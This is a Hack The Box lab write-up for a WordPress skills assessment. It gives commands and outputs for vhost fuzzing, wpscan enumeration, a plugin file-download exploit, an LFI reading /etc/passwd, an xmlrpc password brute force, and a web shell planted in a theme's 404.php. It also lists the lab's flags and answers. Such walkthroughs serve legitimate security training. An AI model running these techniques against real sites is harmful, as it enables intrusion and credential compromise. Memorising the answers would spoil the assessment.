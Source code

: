 # Skills Assessment - WordPress

We have reached the end of the module!

Now let's put all of the new skills we have learned into practice. This final skills assessment will test each of the topics introduced in this module against a new WordPress target.

***

### Scenario

You have been contracted to perform an external penetration test against the company `INLANEFREIGHT` that is hosting one of their main public-facing websites on WordPress.

Enumerate the target thoroughly using the skills learned in this module to find a variety of flags. Obtain shell access to the webserver to find the final flag.

Note: You need to have a knowledge about how in Linux DNS mapping is done when the name server is missing.

**Questions**

Identify the WordPress version number.

```bash
#enumerate where the wordpress is
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -u http://inlanefreight.local -H "HOST: FUZZ.inlanefreight.local" -fs 15189 -t 200
#blog                    [Status: 200, Size: 29308, Words: 2106, Lines: 262, Duration: 2247ms]
wpscan --url http://blog.inlanefreight.local --enumerate --api-token 
#[+] WordPress version 5.1.6 identified (Insecure, released on 2020-06-10).
```

Identify the WordPress theme in use.

```bash
#[+] WordPress theme in use: twentynineteen
```

Submit the contents of the flag file in the directory with directory listing enabled.

```bash
http://blog.inlanefreight.local/wp-content/uploads/upload_flag.txt
HTB{d1sabl3_d1r3ct0ry_l1st1ng!}
```

Identify the only non-admin WordPress user. (Format: firstname - lastname)

```bash
[+] Charlie Wiggins
# | Found By: Author Id Brute Forcing - Display Name (Aggressive Detection)
```

Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download.

```bash
#https://www.exploit-db.com/exploits/48698
curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'
#"First Name", "Last Name", "Email", "List", "Status", "Opt-In Type", "Created On"
#"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Test", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
```

What is the version number of the plugin vulnerable to an LFI?

```bash
#[+] site-editor
# | Location: http://blog.inlanefreight.local/wp-content/plugins/site-editor/
# | Latest Version: 1.1.1 (up to date)
```

Use the LFI to identify a system user whose name starts with the letter "f".

```bash
#https://www.exploit-db.com/exploits/44340
#** Proof of Concept **
http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
#frank.mclane
```

Obtain a shell on the system and submit the contents of the flag in the /home/erika directory.

```bash
#wpsscan brute force for erika
wpscan --password-attack xmlrpc -t 20 -U erika -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local 
#[!] Valid Combinations Found:
#| Username: erika, Password: 010203
#now login and go to theme editor 
http://blog.inlanefreight.local/wp-login.php
#choose theme and edit 404 page (i choose theme twentysixteen)
system($_GET['cmd']);
#save it
curl http://blog.inlanefreight.local/wp-content/themes/twentysixteen/404.php/?cmd=id
#uid=33(www-data) gid=33(www-data) groups=33(www-data)
curl http://blog.inlanefreight.local/wp-content/themes/twentysixteen/404.php/?cmd=cat+/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt
#HTB{w0rdPr355_4SS3ssm3n7}
```
